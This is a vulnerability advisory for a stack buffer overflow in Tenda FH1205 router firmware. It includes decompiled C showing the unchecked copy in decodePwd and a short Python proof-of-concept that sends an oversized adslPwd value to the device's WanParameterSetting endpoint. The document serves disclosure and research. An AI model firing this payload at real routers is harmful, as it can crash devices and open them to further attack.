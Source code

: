 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2236.html

## Affected version

FH1205 V2.0.0.7(775)

## Vulnerability details

The Tenda FH1205 V2.0.0.7(775) firmware has a stack overflow vulnerability located in the `formWanParameterSetting` function. This function accepts the `wanType`and `connect` parameter from a POST request. Within `v4 == 2`, this function accepts the `adslPwd` parameter from a POST request, which is assigned to `decodePwd(v11, v15);`. However, since the user has control over the input of `adslPwd`, the function `decodePwd()` leads to a buffer overflow. The user-supplied `adslPwd` can exceed the capacity of the `v15` array, thus triggering this security vulnerability.

![](https://github.com/abcdefg-png/images2/blob/main/image-20240410144504996.png)

![](https://github.com/abcdefg-png/images2/blob/main/image-20240410144434686.png)

![](https://github.com/abcdefg-png/images2/blob/main/image-20240410144449758.png)

```c
_BYTE *__fastcall decodePwd(_BYTE *a1, _BYTE *a2)
{
  _BYTE *result; // $v0
  _BYTE *v3; // [sp+8h] [+8h]
  _BYTE *v4; // [sp+Ch] [+Ch]

  v3 = a1;
  v4 = a2;
  result = a1;
  if ( a1 )
  {
    result = a2;
    if ( a2 )
    {
      while ( *v3 )
      {
        if ( *v3 == 92 )
          ++v3;
        *v4++ = *v3++;
      }
      result = v4;
      *v4 = 0;
    }
  }
  return result;
}
```

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/WanParameterSetting"
payload = b"a"*1000

data = {"wanType":"2","connect":"1","adslPwd": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240409102339559](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240409102339559.png)